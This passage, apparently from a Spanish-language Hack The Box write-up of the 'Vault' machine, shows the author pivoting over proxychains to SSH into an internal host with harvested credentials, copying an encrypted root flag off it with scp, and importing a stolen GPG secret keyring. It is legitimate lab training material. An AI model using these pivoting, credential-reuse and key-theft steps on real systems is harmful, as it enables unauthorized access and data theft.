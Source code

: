 Con un nmap veremos que el servicio del puerto 987 de la 192.168.5.2 es en realidad un servidor SSH, por lo que conectándonos por ssh sobre el proxychains entraremos por fin a vault.

Usaremos las credenciales que encontramos en DNS sobre dave (recordemos los logs de auth):

``` text
xbytemx@laptop:~/htb/vault$ proxychains ssh dave@192.168.122.4 -p3001
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:3001-<><>-OK
The authenticity of host '[192.168.122.4]:3001 ([192.168.122.4]:3001)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.122.4]:3001' (ECDSA) to the list of known hosts.
dave@192.168.122.4's password:
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ ls
root.txt.gpg
dave@vault:~$
```

# get root.txt.gpg

Ya que entramos a Vault, encontramos un archivo en el home de dave, el cual es un archivo gpg. Lo descargamos:

``` text
xbytemx@laptop:~/htb/vault$ proxychains scp -P 3001 dave@192.168.122.4:/home/dave/root.txt.gpg .
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:3001-<><>-OK
dave@192.168.122.4's password:
Permission denied, please try again.
dave@192.168.122.4's password:
root.txt.gpg                                                                                         100%  629     4.0KB/s   00:00
```

Explorando las maquinas, encontraremos que en ubuntu podemos acceder al _secring_ de dave, por lo que lo descargamos e importamos:

``` text
xbytemx@laptop:~/htb/vault$ gpg --import ubuntu-gnupg/secring.gpg
gpg: clave 9067DED00FDFBFE4: clave pública "david <dave@david.com>" importada
gpg: clave 9067DED00FDFBFE4: clave secreta importada
gpg: Cantidad total procesada: 1
gpg:               importadas: 1
gpg:       claves secretas leídas: 1
gpg:   claves secretas importadas: 1
```

